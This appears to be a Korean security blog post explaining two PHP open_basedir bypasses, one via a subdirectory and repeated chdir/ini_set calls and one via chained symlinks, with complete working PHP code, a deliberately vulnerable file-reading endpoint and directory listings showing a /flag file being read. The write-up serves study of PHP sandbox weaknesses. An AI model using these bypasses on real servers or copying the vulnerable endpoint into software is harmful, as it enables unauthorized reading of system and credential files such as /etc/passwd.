 ```yaml
---
layout: post
title: "PHP Open_basedir bypass"
comments: true
description: "PHP Open_basedir bypass."
keywords: PHP, bypass, open_basedir

---
```


## 시작하기에 앞서

오탈자, 혹은 잘못된 부분은 언제든 환영합니다 :)

## 왜 갑자기 open_basedir?

잠자기전 트위터를 보다가 굉장히 흥미로운 트윗을 보았습니다. Thanks to, [@Blaklis_](<https://twitter.com/Blaklis_>)

![image-20190405042856180](<http://shpik.kr/static/img/open_basedir_intro.png>)

> **Source :** https://twitter.com/Blaklis_/status/1111586655134203904

처음에는 단순히 라업을 적은듯 하였는데, 내용을 읽어보니 일단 제가 모르는 것이었습니다.  [[Go to link]](<http://91.121.31.50/phuck3.txt>)

요약을 하자면 open_basedir이 설정되어있을 경우, 이를 우회해 /(root)로 변경이 가능합니다.

이말은 즉,  open_basedir이 /var/www/html에 걸려있더라도 /etc/passwd와 같은 서버 설정파일을 읽을 수 있다는 것입니다. 

총 2가지 방법(subdirectory, symlink)을 통해 open_basedir을 우회하려고 합니다.

## open_basedir bypass

#### Initialize Setting

서버의 설정(php.ini)는 다음과 같습니다.

```ini
open_basedir = /var/www/html
```

index.php의 소스는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
echo file_get_contents($_GET['f']);
```

/flag를 읽을려고 하면 당연히 에러가 발생할 것입니다.

![Error](http://shpik.kr/static/img/open_basedir_00.png)

참고로 정상적인 경우 open_basedir을 /로 변경해도, open_basedir은 변경되지 않습니다. 고로 /flag를 읽을 수 없습니다.

![default open_basedir](http://shpik.kr/static/img/open_basedir_02.png)

이제 이를 우회하여 /flag파일을 읽어봅니다.

#### 1 - Using subdirectory

subdirectory를 이용하여 open_basedir을 /로 변경하는 방법입니다.

이를 위해서는 open_basedir안에 폴더가 존재해야합니다.

테스트를 위한 서버의 구조는 다음과 같습니다.

```
root@shpik:/var/www/html/shpik/04# ls -al
total 20
drwxr-xr-x 3 root root 4096 Apr  5 04:45 .
drwxr-xr-x 6 root root 4096 Apr  5 04:16 ..
-rw-r--r-- 1 root root  341 Apr  5 04:21 index.php
drwxr-xr-x 2 root root 4096 Apr  5 04:19 mashiro
-rw-r--r-- 1 root root  100 Apr  5 04:45 test.php
```

mashiro라는 폴더를 이용하여 /flag파일을 읽어봅시다.

코드는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
chdir('mashiro');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents($_GET['f']);
```

open_basedir을 우회하여 /flag파일이 정상적으로 읽힙니다.

![open_basedir bypass using subdirectory](http://shpik.kr/static/img/open_basedir_01.png)

#### 2 - Using symlink

/를 가르키는 symlink를 생성하여 open_basedir을 우회하는 방법입니다.

이는 ../를 이용해 parent directory로 이동하기 때문에 적당한 깊이의 폴더가 필요합니다.

```
root@shpik:/var/www/html/shpik/04/symlink# tree
.
├── a
│   └── b
│       └── c
│           └── d
│               └── e
│                   └── f
│                       └── g
│                           └── h
│                               └── j
│                                   └── j
│                                       └── k
└── index.php
```

이를 링크로 하나 만들어줍니다.

```php
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
```

그러면 아래와 같은 symlink가 생성됩니다.

```
shiina -> /var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k
```

위에서 생성한 symlink(shiina) 기준으로 하위로 내려가는 symlink(goto)를 하나 더 생성해줍니다.

그리고 ini_set을 통해 open_basedir을 재 설정해주는데, 방금 생성한 symlink(goto/)를 추가해줍니다.

마지막으로 symlink(shiina)는 unlink해줍니다. 

```php
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
```

그러면 goto라는 symlink는 /를 가르키게 되고 `file_get_contents('goto/flag');`를 하게 되면 open_basedir을 우외하여 파일을 읽을 수 있습니다. 아래는 풀 코드입니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
echo file_get_contents('./goto/flag');
highlight_file(__FILE__);
```

![open_basedir bypass using symlink](http://shpik.kr/static/img/open_basedir_03.png)